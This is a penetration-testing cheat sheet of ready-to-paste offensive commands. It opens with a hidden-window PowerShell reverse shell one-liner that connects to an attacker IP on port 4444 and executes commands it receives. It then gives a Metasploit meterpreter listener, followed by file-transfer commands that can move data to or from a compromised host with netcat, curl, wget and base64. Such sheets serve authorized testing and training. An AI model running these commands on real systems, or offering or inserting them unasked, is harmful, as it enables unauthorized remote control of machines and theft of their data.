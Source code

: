 ### PowerShell Reverse Shell One-Liner
Establish a reverse shell using PowerShell.
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "& {$client = New-Object System.Net.Sockets.TCPClient('10.10.10.x',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"
```

### Start Multi-Handler with Metasploit
Set up a Metasploit listener for various payloads.
```bash
msfconsole -q -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.10.10.x; set LPORT 4444; exploit"
```

# File Transfer

### Python Simple HTTP Server
Start a simple HTTP server to serve files from the current directory.
```bash
python3 -m http.server 8000
```

### Upload File with Curl
Upload a file to a web server using curl.
```bash
curl -F "file=@/path/to/file.txt" http://target.com/upload.php
```

### Download File with Wget
Download a file from a web server.
```bash
wget http://10.10.10.x:8000/file.txt
```

### Transfer with Netcat (Receiver)
Receive a file using netcat.
```bash
nc -lvnp 4444 > file.txt
```

### Transfer with Netcat (Sender)
Send a file using netcat.
```bash
nc 10.10.10.x 4444 < file.txt
```

### Base64 Encode/Decode Transfer
Transfer files by encoding to Base64 and decoding on the target.
```bash
# On source:
cat file.txt | base64 -w 0; echo
# On target:
echo "base64string" | base64 -d > file.txt
```

